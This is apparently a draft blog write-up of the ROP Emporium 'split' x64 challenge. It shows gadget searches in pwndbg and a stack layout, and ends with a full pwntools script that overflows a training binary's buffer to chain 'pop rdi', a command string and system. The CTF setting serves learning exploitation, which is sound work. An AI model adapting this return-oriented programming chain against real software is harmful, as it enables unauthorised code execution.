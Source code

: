 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-2
title: ROP x64 Challenge 2
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
```


## Challenge 2: Split
> The elements that allowed you to complete ret2win are still present, they've just been split apart.  Find them and recombine them using a short ROP chain.


This is the first challenge that really gets into the coolness of ROP exploits. 

Where before we just needed to execute the ret2win function, now there is no single place we need to return to. However, there are 2 parts of code (which are disconnected) that we need to execute in this binary. We first need to place a pointer to the "/bin/cat flag.txt" string into rdi (which is where the first argument to a function is stored) and then we need to cause a system call to happen. Luckily the string and system call already exist in the program so all we have to do is put them together.


When we search within [[pwndbg]] for ways to edit the value of $rdi we get the following:

```
pwndbg> ropper -- --search "pop rdi"
[INFO] File: /tmp/tmplhu8fdig
0x00007ffff7fec24b: pop rdi; jne 0x7ffff80675b8; add rdx, 8; add rax, 3; mov qword ptr [rdi], rdx; ret;
0x00007ffff7fd09c1: pop rdi; pop rbp; ret;
0x00000000004007c3: pop rdi; ret;
```
The pop instruction takes the top value on the stack and places it in the register. Since we control the stack with our buffer overflow, we can control that value and make it whatever we want. The last one shown is ideal for us in this situation as it doesn't cause another bad side effects.

When we print the functions we can also see a location for the system call.
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system

```

So what we want to do is run 2 instructions sets, the first starting at 0x40073c and then jump to 0x400560. Luckily the first 2 instructions end with a ret instruction which jumps to the instructions held at the top of the stack. So we want the stack to look like this

```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | pop rdi loc    | # gadget to control rdi
8 bytes | ptr to string  | # the value we want to place in rdi
8 bytes | system call loc| # the system call function we want to call
8 bytes | -------------- |

```


This stack overwrite causes the pwnme function to return to the pop rdi instruction. The location of the "/bin/cat flag.txt" string is then placed into the rdi register. The program then returns to the system call location and prints the flag.

```python
#!/usr/bin/python3

from pwn import *

io = process('./split')
# The amount to fill the buffer
junk = b'A' * 0x20
# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
pop_rdi = p64(0x004007c3)

# The address of the "/bin/cat flag.txt"
addr_of_command = p64(0x00601060)

call_system = p64(0x00400560)
back_junk = b"B" * 20

payload = junk + new_bp + pop_rdi  + addr_of_command +  call_system
payload += back_junk

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")
print(io.clean(0.5).decode("utf-8"))
io.send(payload)
print(io.clean(0.5).decode("utf-8"))
input("exploit sent hit enter to end")
sleep(1)
```

